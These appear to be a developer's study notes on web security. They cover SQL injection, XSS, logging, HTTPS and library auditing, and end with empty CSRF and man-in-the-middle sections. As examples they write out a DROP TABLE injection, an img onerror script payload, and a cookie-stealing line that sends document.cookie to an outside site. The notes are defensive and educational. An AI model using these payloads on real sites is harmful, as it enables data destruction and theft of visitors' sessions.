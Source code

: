 ## Security

### SQL injections

Let's have a look at a SQL injection example.

```sql
INSERT INTO users (email) VALUES (; DROP TABLE users; --);
```

The original intent of this SQL command was to insert an email into the `users` table, however, a malicious code was inserted to drop the whole table. The `--` means to comment out anything after that.

Apart from injecting into SQL, you can also inject into a web page by entering `<img src='/' onerror="alert(1)" />` into an input filed where the content is applied directly to the `innerHTML` property.

To fix injection loopholes

- sanitize inputs (white list)
- parametrize queries (ORM, Object-relational mapping)

### 3rd party libraries

Audit the 3rd party libraries in your project using helper tool such as [snyk](https://snyk.io/).

### Logging

Always try to implement logging so you have more info about what happen in your project. [morgan](https://github.com/expressjs/morgan) and [winston](https://github.com/winstonjs/winston) are something you can use as a starter. 

### Use HTTPS

HTTPS encrypts info transmitted between client and server so use service like [letsencrypt](https://letsencrypt.org/) to upgrade your site for security's sake.

### Cross-site scripting (XSS)

An XSS attack exploits a weakness in a page that includes a variable submitted in a request to show up in raw form in the response. The page is only reflecting back what was submitted in that request, but the content of that request might hold characters that break out of ordinary text content and introduce HTML or javascript content that the developer did not intend.

For example, if you have a form that allows user to input a comment, and below the form you display it. Without proper handling of XSS, you can write `window.location = 'myWebsite.com?cookie=' + document.cookie` into the input field and submit it as a comment. Since it is now added to the page as a comment, anyone who visits the site will have their cookies stolen.
  
Therefore, we should always remember to `serialize` our data before using it.

### Cross Site Request Forgery (CSRF)

### Man in the middle
